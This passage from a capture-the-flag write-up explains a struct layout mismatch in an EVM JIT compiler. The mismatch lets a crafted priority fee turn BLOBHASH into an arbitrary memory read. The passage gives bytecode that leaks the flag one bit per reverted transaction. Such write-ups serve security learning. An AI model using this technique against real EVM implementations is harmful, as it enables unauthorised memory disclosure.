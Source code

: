 At runtime the size of `CfgEnv` and `TxEnv` are larger than the size when building IR code, so the memory address of `blob_hashes` field in `TxEnv` is different. After printing the struct and size, we can find the actual shift is 48 bytes, which means `blob_hashes` field in `TxEnv` is 48 bytes ahead of the expected position of JIT Compiler. It makes the calculated memory address of `blob_hashes[i]` pointing to the previous field in `TxEnv`, which is `gas_priority_fee`.

```txt
+---------------------------------+--------------------+--------------------+-----------------+
| gas_priority_fee (40 bytes)     | capacity (8 bytes) |  pointer (8 bytes) | length (8 bytes)|
+---------------------------------+--------------------+--------------------+-----------------+
```

After the memory shift, when it reads `blob_hashes` length it actually reads the 9th to 16th bytes of `gas_priority_fee`. As for `blob_hashes` element pointer, it reads the 1st to 8th bytes of `gas_priority_fee`. Therefore, we can control the value of `gas_priority_fee` to bypass the length check and make it read the flag!

### Exploit

To read `0x13370000` memory address, we can set `index = 0` and let it reads `0x13370000` from `blobhash_ptr`. Also, `gas_priority_fee` should be at least `2**64` so it can read `1` for `blobhash_len` to bypass the length check. This will make `BLOBHASH` op code returns the memory content of `0x13370000` to EVM stack. The remaining steps are trying to leak the stack element.

### My Solution

The bytecode I used is `5f496004351c60011660145760015f5260205ff35b5f5ffd`:

```txt
[00] PUSH0 
[01] BLOBHASH 
[02] PUSH1          04
[04] CALLDATALOAD 
[05] SHR 
[06] PUSH1          01
[08] AND 
[09] PUSH1          14
[0b] JUMPI 
[0c] PUSH1          01
[0e] PUSH0 
[0f] MSTORE 
[10] PUSH1          20
[12] PUSH0 
[13] RETURN 
[14] JUMPDEST 
[15] PUSH0 
[16] PUSH0 
[17] REVERT
```

It will call BLOBHASH with `index = 0`, and shift the result based on call data to leak one bit of stack element. The transaction will be reverted if the `i`-th bit of the stack element is `1`. When sending transaction, we need to set max priority fee to `2**64 + 0x13370000` to meet the above condition. After sending 256 transactions, we can recover the full flag.
